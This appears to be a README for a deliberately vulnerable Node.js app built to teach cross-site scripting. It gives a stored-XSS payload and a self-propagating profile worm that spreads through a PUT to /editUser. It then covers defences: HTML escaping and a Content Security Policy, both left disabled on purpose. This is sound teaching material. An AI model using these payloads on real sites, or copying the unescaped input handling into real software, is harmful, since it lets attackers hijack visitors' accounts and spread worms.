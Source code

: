 # Cross-site scripting demonstration

This web application is only used for XSS demonstration, hence its modest appearance

## Usage

Clone this project to your device and run these command in its root directory:

```npm
npm install
npm run dev
```

Open a browser, access localhost:8080, you can log in from there. There are 5 available accounts: hao, thoi, dinh, john, bucky. All of them have the same password which is 123. You can edit or add account in [database/usersData.json](database/usersData.json), this project doesn't have a register account or change password feature simply because it isn't needed for its purpose (demonstrate XSS).

After logged in, you can add new messages, edit your profile, or view other user's profile by clicking their name (where we will put the XSS stuff).

## XSS in action

Login -> Edit user -> Put the code below in the "Introduction" textarea and press "Done". This will cause an alert to show up every time a user visits your profile. Of course, you can do more than just show a harmless alert, but it's what attackers do when they examine if a website is vulnerable to XSS.\
You can also send this as a message to show the same alert everytime a user open the message page.

```html
</textarea> <script>alert("hehe");</script>
<!-- Put the </textarea> right before the malicious javascript to end the previous textarea tag. You can see it using the developer tool. -->
```

This code below will cause an alert to show up every time a user visits your profile, but also copy its entire code to that user's "Introduction", making it a self-propagating worm.\
I haven't figure out how to make this worm work with messages, you can try it out.

```html
</textarea> 
<script id="worm">
    alert("hehe");  // the main attacking code

    // ----- the self-propagating code -----
    var headerTag = '<script id="worm">';
    var ownCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; // splitting up the tag to prevent the worm code from ending here
    var wormCode = "</textarea>" + headerTag + ownCode + tailTag;
    window.onload = function () {
        var updatedUser = {
            introduction: wormCode
        };

        var xhr = new XMLHttpRequest();
        xhr.open("PUT", "/editUser", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(updatedUser));
    };
    // ----- the self-propagating code -----
</script>
```

***Where the XHR come from***: Use the developer tool (turn on Preserve log) to see the request sent when pressing the "Done" button in the editUser page (the button that can change a user's profile). You can see that a request called "editUser" is sent, if it's cancelled, you can right click it and choose Copy -> Copy as fetch and paste it somewhere to examine. It's method is PUT and body is {"introduction":"..."}, so we construct a similar XHR to send to the server. Obviously we can see it in the server's source code but I'm talking in the attacker's perspective, who doesn't have the source code (maybe).

## Prevention

### **Escape dynamic content**

Go to [controllers/userController.js line 40](controllers/userController.js#L40)  (the editUser PUT request):

```javascript
var newIntroduction = req.body.introduction;
// newIntroduction = newIntroduction.replace(/&/g, "&amp;");
// newIntroduction = newIntroduction.replace(/</g, "&lt;");
// newIntroduction = newIntroduction.replace(/>/g, "&gt;");
// newIntroduction = newIntroduction.replace(/"/g, "&quot;");
// newIntroduction = newIntroduction.replace(/'/g, "&#039;");
```

Uncomment those 5 comments, this will escape every {&, <, >, ", '} to its entity encoding {&amp, &lt, &gt, &quot, &#039} in the received content. This way, every javascript in the received content become useless.

### **Content Security Policy**

[Content Securiy Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) is the standard solution to many web security problem. It restrict what can be executed, performed in a web page so malicious codes have a harder time doing anything.

Go to [controllers/userController.js line 17](controllers/userController.js#L17) and [line 68](controllers/userController.js#L68):

```javascript
res.writeHead(200, {
    "Content-Type": "text/html",
    //"Content-security-policy": "default-src 'self'",
});
```

Uncomment that Content-securiy-policy line, to set Content Securiy Policy to the response's header before sending it away.

Or you can go to [resources/editUser.html line 9](resources/editUser.html#L9) and [resources/viewUser.html line 9](resources/viewUser.html#L9):

```html
<!-- <meta http-equiv="Content-Security-Policy" content="default-src 'self'"> -->
```

Uncomment the meta tag and it will have the same effect as above.

The CSP option that we saw is:

```CSP
Content-security-policy: default-src 'self'
```

[`default-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src) means for every `src` directives that are absent, it will use this one's value instead (the one that we need are [`script-src`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)).\
[`self`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/Sources#sources) means that the web pages can only use resources which come from its own server.

## Reference

Web Security for Developers: Real Threats, Practical Defense\
<https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/>
